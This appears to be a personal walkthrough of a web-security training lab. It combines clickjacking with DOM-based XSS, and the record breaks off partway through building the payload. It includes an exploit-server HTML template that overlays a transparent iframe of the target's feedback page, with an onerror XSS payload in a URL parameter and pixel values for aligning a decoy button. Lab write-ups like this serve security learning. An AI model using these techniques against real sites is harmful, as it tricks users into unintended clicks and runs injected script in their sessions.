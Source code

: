 ## 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS
This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function.

**Analysis:**
1. Go to the exploit server and paste the following HTML template into the **Body** section:
```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

2. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID so that the URL points to the target website's "Submit feedback" page.
    - Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Submit feedback" button and the "Test me" decoy action align (we suggest 610px and 80px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.

- accessing the submit feedback page where we can make use of XSS
![](Pasted%20image%2020241216193522.png)

![](Pasted%20image%2020241216193646.png)

- let s test the name field for XSS using a basic xss error script
	![](Pasted%20image%2020241216193901.png)  
- building our payload using  the exploit server
```html
<style>
	iframe {
		position:relative;
		width:500px;
		height: 850px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top:790px;
		left:90px;
		z-index: 1;
```